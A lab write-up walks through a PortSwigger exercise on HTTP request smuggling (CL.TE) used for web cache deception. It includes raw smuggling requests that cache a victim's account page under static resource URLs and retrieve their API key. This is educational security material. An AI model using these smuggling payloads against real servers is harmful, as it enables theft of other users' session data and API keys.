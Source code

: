 # Exploiting HTTP request smuggling to perform web cache deception | Feb 24, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception), you'll learn: Exploiting HTTP request smuggling to perform web cache deception! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is caching static resources.

To solve the lab, perform a request smuggling attack such that the next user's request causes their API key to be saved in the cache. Then retrieve the victim user's API key from the cache and submit it as the lab solution. You will need to wait for 30 seconds from accessing the lab before attempting to trick the victim into caching their API key.

You can log in to your own account using the following credentials: `wiener:peter`

> Note:
>  
> The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224200639.png)

In here, we can try to identify the web application is vulnerable to HTTP request smuggling.

First, we need to determine which type of HTTP request smuggling. Like CL.TE (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header) or TE.CL (Front-end uses `Transfer-Encoding` header, back-end uses `Content-Length` header).

- CL.TE:

**Attack request:**
```http
POST / HTTP/1.1
Host: 0a7b0027039cfac0c0ef869700c10027.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224200927.png)

**Normal request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224200951.png)

As you can see, our normal request's response returns a 404 status code, which means the web application is vulnerable to CL.TE HTTP request smuggling.

Then, we can move on to the next bigger exploit chain.

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224201213.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224201225.png)

As you can see, both `/resources/js/tracking.js` and `/resources/images/blog.svg` has implemented web cache.

That being said, we can try to **poison those cache later**.

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224201353.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224201410.png)

After we logged in, we can view our API key.

Armed with above information, we can try to **leverage HTTP request smuggling to perform web cache deception** in order to view victim's API key!

> **What is the difference between web cache poisoning and web cache deception?**
> 
> - In **web cache poisoning**, the attacker causes the application to store some **malicious content** in the cache, and **this content is served from the cache to other application users**.
> - In **web cache deception**, the attacker causes the application to store some **sensitive content** belonging to another user in the cache, and **the attacker then retrieves this content from the cache.**

**To do so, we can first smuggle a request that returns some sensitive user-specific content:**
```http
POST / HTTP/1.1
Host: 0a7b0027039cfac0c0ef869700c10027.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Foo: x
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224201813.png)

The next request from another user that is forwarded to the back-end server will be appended to the smuggled request, including session cookies and other headers. For example:

```http
GET /my-account HTTP/1.1
X-Foo: xGET /resources/images/blog.svg HTTP/1.1
Host: 0a7b0027039cfac0c0ef869700c10027.web-security-academy.net
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
```

The back-end server responds to this request in the normal way. The URL in the request is for the user's profile and the request is processed in the context of the victim user's session. The front-end server caches this response against what it believes is the URL in the second request, which is `/resources/images/blog.svg`:

```http
GET /resources/images/blog.svg HTTP/1.1
Host: 0a7b0027039cfac0c0ef869700c10027.web-security-academy.net

HTTP/1.1 200 Ok
[...]
<div>Your API Key is: [...]</div>
[...]
```

We can then visits the static URL and receives the sensitive content that is returned from the cache.

An important caveat here is that **we doesn't know the URL against which the sensitive content will be cached**, since this will be whatever URL the victim user happened to be requesting when the smuggled request took effect. **We may need to fetch a large number of static URLs to discover the captured content**.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224202507.png)

We found `administrator`'s API key in `/resources/js/tracking.js`!

Let's submit that!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224202536.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224202541.png)

# What we've learned:

1. Exploiting HTTP request smuggling to perform web cache deception